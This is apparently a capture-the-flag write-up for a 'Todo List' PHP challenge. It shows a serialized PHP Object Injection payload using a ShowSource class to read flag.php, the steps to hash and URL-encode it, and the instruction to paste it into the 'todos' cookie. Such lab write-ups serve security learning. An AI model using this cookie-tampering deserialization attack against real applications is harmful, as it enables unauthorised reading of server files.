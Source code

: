 
## Todo List

![img](https://i.ibb.co/dQBGxXC/image.png)

## Solution:

This challenge contains the PHP Object Injection vulnerability which allows attacker to modify the object. Your task is to modify the object which will be stored as a cookie when you add any task in the list. You will get basic payload creation idea if you see the provided PHP code carefully.

### Payload Creation


Step 1 - Basic payload to read flag.php
```
a:1:{i:1;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
```
#

Step 2 - Getting SHA1 hash of above payload

![img](https://i.ibb.co/LvRRknh/Screenshot-from-2022-03-21-17-03-55.png)

#

Step 3 - Encoding the basic payload

![img](https://i.ibb.co/Ws1zmtn/Screenshot-from-2022-03-21-17-11-21.png)

#

Step 4 - Concatenating generated `Hash` and `Encoded Basic Payload` together.

```
168ebef72875ddf6d6e4ac71f87a4bb2be6b5373a%3A1%3A%7Bi%3A1%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

### Payload Injection

Step 1 - Just add any random task in todo list

Step 2 - Go to cookies section by inspecting the page

![img](https://i.ibb.co/y0GRyLp/Screenshot-from-2022-03-21-16-53-55.png)

#

Step 3 - Edit `todos` cookie value and paste our payload and refresh the page.

![img](https://i.ibb.co/4K80Nxm/Screenshot-from-2022-03-21-17-19-23.png)
